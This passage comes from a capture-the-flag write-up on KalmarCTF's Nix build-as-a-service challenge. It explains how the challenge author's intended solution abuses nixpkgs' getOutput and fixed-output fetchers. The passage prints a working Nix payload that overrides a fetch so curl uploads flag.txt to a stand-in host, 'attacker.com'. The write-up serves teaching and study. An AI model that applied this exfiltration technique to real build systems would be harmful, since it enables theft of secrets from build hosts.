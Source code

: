 Note: an interesting part of the web app is that it doesn't pass
`--no-out-link` to `nix-build`, which makes the build always fail since
it does not have permissions to write the `result` symlink:

```
error: filesystem error: cannot create symlink: Permission denied [/nix/store/gwmr71zbzbaa3c1mmxz6ly2fpi1q7svr-nixjail-0.0.1] [/result.tmp-628-1405809681]
```

This is, however, still enough to differentiate between the two cases, since a build
failure returns something like:

```
       For full logs, run 'nix log /nix/store/dnlaqczp0yrff6nvgqnvykbyfjg566qd-nixjail-0.0.1.drv'.
```


After waiting about 20 minutes for the script to run (it was pretty slow, but we had time),
we got the whole flag! :tada:


## Intended Solution

After solving the challenge, I talked with the author [niko][@nrab@hachyderm.io], who
showed me the intended solution, which is arguably even more interesting and
actually takes advantage of `pkgs.hello` in `default.nix`, unlike my solution
which could work without it by making a slight modification.
More importantly, it works without the addition of the `buildPhase` nerf,
that is, it works with only adding the derivation to `nativeBuildInputs`.

Without further ado, this is the intended solution:

```nix
{
  type = "derivation";
  outputSpecified = 0 == 0; # equals to true, since that is blocked by no-builtins.nix
  __toString = self: (self.src.overrideAttrs {
    # force nix to re-download file
    outputHash = "";
    outputHashAlgo = "sha256";

    urls = [ "https://attacker.com" ];
    curlOptsList = [ "-F" "flag=@${./flag.txt}" ];
  });
}
```

Let's now figure out _why_ and how this works.

When a derivation is added to `nativeBuildInputs`, `mkDerivation` will
[call `lib.getDev` on it][mkDerivation-getDev] in order to get a store path suitable to
[add to `PATH`][mkDerivation-PATH].

Notably, [`lib.getDev`][getDev] is simply an alias to [`lib.getOutput "dev"`][getOutput],
which are defined as:

```nix
{
  # ...
  getOutput = output: pkg:
    if ! pkg ? outputSpecified || ! pkg.outputSpecified
      then pkg.${output} or pkg.out or pkg
      else pkg;
  # ...
  getDev = getOutput "dev";
  # ...
}
```


[reproducible-pwning]: /blog/kalmarctf-writeup-reproducible-pwning
[handout]: https://github.com/kalmarunionenctf/kalmarctf/tree/main/2025/misc/nix-build-aas
[ifd]: https://nix.dev/manual/nix/2.24/language/import-from-derivation
[scopedImport-undocumented]: https://github.com/NixOS/nix/issues/1450
[nix-underscore-builtins]: https://discourse.nixos.org/t/readfile-vs-builtins-readfile/12355/3
[overloading-ops]: https://github.com/NixOS/nix/issues/7290#issuecomment-1546846723
[fod]: https://nix.dev/manual/nix/2.24/language/advanced-attributes.html#adv-attr-outputHash
[isDerivation]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1250-L1282
[nixpkgs]: https://github.com/NixOS/nixpkgs
[derivation]: https://nix.dev/manual/nix/2.24/language/derivations.html
[toString]: https://nix.dev/manual/nix/2.24/language/builtins#builtins-toString
[mkDerivation-getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/make-derivation.nix#L346
[mkDerivation-PATH]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/setup.sh#L819
[getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1933-L1960
[getOutput]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1763-L1799
[hello-fetchurl]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/by-name/he/hello/package.nix#L16-L19
[fetchurl]: https://github.com/nixos/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/build-support/fetchurl/default.nix
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[Kalmarunionen]: https://www.kalmarunionen.dk/
